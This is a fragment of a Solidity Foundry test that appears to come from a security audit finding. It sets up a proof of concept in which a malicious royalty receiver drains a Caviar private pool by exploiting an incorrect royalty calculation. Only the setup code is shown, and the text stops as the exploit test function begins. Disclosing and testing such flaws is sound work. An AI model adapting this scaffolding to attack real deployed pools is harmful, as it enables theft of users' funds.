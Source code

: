 ```solidity
    /// @notice The Caviar private pool that incorrectly calculates royalties.
    PrivatePool public privatePool;

    /// @notice Merkle root is set to bytes32(0) to make setup simpler.
    bytes32 constant MERKLE_ROOT = bytes32(0);

    /// @notice The private pool has initial balance/reserve of 100 ETH (the base token is address(0)).
    uint128 constant VIRTUAL_BASE_TOKEN_RESERVES = 100e18;

    /// @notice The private pool has 5 NFTs, each one with a wight of 1e18 (the merkle root is bytes32(0)).
    uint128 constant VIRTUAL_NFT_RESERVES = 5e18;

    /// @notice The specific NFT that will be used to perform the epxloit.
    /// @notice The attacker should be the royalty receiver of this NFT.
    /// @dev Zero is used so we can pass `new uint256[](1)` as the tokenIds array.
    uint256 tokenId = 0;

    // The attacker. It is set as a royalty receiver to NFT#tokenId that will be used to perform the exploit.
    address receiver;

    function setUp() external {
        // The attacker.
        receiver = vm.addr(1);

        // The NFT collection the will be used by the private pool.
        nft = new ERC721RoyaltyCollection("VoyvodaSec", "VSC");

        _deployPrivatePool();
        _depositNFTs(tokenId);

        _fundEth();

        // Assert setup.
        assertEq(
            privatePool.nft(),
            address(nft),
            "Setup: NFT collection not set correctly."
        );
        assertEq(
            nft.ownerOf(tokenId),
            address(privatePool),
            "Setup: the NFT should initially be deposited to the private pool."
        );

        assertEq(
            privatePool.baseToken(),
            address(0),
            "Setup: the private pool base token should be ETH."
        );
        assertEq(
            address(privatePool).balance,
            VIRTUAL_BASE_TOKEN_RESERVES,
            "Setup: incorrect initial amount of ETH supplied to pool."
        );

        // Log initial state (before attack).
        _logState(" Before the exploit");
    }

    function test_MaliciousRoyaltyReceiverDrainPrivatePool() external {
```